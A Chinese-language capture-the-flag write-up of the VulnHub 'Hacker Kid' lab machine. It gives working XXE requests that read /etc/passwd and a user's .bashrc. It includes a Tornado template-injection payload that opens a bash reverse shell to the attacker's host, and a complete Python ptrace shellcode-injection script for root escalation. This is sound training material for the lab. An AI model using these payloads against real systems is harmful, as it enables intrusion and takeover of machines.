#  Hacker kid 1.0.1

> https://download.vulnhub.com/hackerkid/Hacker_Kid-v1.0.1.ova

靶场IP：`192.168.32.230`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.230                                                                                                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 08:59 EDT
Nmap scan report for 192.168.32.230
Host is up (0.00058s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
9999/tcp open  http    Tornado httpd 6.1
MAC Address: 00:0C:29:95:5F:70 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds

```

访问80端口



查看页面源代码，找到一个参数：`page_no`



爆破参数内容为`21`。




```
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : hackers.blackhat.local
```

> 好的，所以你想让我说点什么？
> 我是一个黑客小子，不是一个愚蠢的黑客。所以我创建了一些子域，以便随时返回服务器！
> 在我的许多家中......一个这样的家..一个这样的家对我来说：hackers.blackhat.local

配置本地hosts

```
192.168.32.230 hackers.blackhat.local
```

再挖一个域名，写入`/etc/hosts`。

```
┌──(root💀kali)-[/tmp]
└─# dig @192.168.32.230  hackers.blackhat.local     

; <<>> DiG 9.16.11-Debian <<>> @192.168.32.230 hackers.blackhat.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 21702
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 19e1a354c336d6d601000000631dde5f1dacdb299c22e5b5 (good)
;; QUESTION SECTION:
;hackers.blackhat.local.                IN      A

;; AUTHORITY SECTION:
blackhat.local.         3600    IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600

;; Query time: 0 msec
;; SERVER: 192.168.32.230#53(192.168.32.230)
;; WHEN: Sun Sep 11 09:10:54 EDT 2022
;; MSG SIZE  rcvd: 125

                             
```

访问：`http://hackerkid.blackhat.local/`



抓包分析，body是xml格式，尝试使用XXE攻击



```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 178
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>
  ]><root><name></name><tel></tel><email>&xxe;</email><password></password></root>

```

存在XXE漏洞



我们可以从上面的截图中看到，电子邮件被文件"/etc/passwd"的内容所取代。此前，用户曾暗示过家。因此，我们可以假设用户"saket"的主目录中有一些东西。当我尝试打开 .bashrc 文件时，它失败了。但是，在使用 PHP 包装器时，我们可以获取 base64 格式的内容。有效载荷如下。

```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 235
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
<root>
<name></name>
<tel></tel>
<email>

&xxe;</email>
<password></password>
</root>

```



访问：`http://192.168.32.230:9999/login?next=%2F`，输入：`saket/Saket!#$%@!!`



登录成功



按照提示，输入参数：`name`



我们可以看到它返回的内容与我在"name"参数中发送的内容相同。因此，我们可以尝试一个简单的 SSTI 有效载荷。


如我们所见，命令被执行，我们得到了 `7*7` 的结果 49。这意味着我们可以注入一个可以为我们提供反向 shell 的有效负载。幸运的是，它使用了 **Tornado**，我们可以使用一个非常简单的有效载荷来获得反向 shell。

```
{{os.system('bash -c "bash -i >& /dev/tcp/192.168.32.130/1234 0>&1"')}}
```

> 当然，我们必须对它进行 URL 编码



反弹成功



root 权限提升是这台机器的一个有趣部分。让我们检查机器上不同二进制文件的功能。

```
saket@ubuntu:~$ /sbin/getcap -r / 2>/dev/null
/sbin/getcap -r / 2>/dev/null
/snap/core20/1623/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

EXP

```
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

因为需要找root进程进行注入，所以简单写个脚本对root进程进行批量尝试

```
for i in `ps -ef|grep root|grep -v "grep"|awk '{print $2}'`; do python2.7 inject.py $i; done
```

本地执行成功后，通过netstat可以看到开启监听了5600端口，通过nc连接后即可执行命令




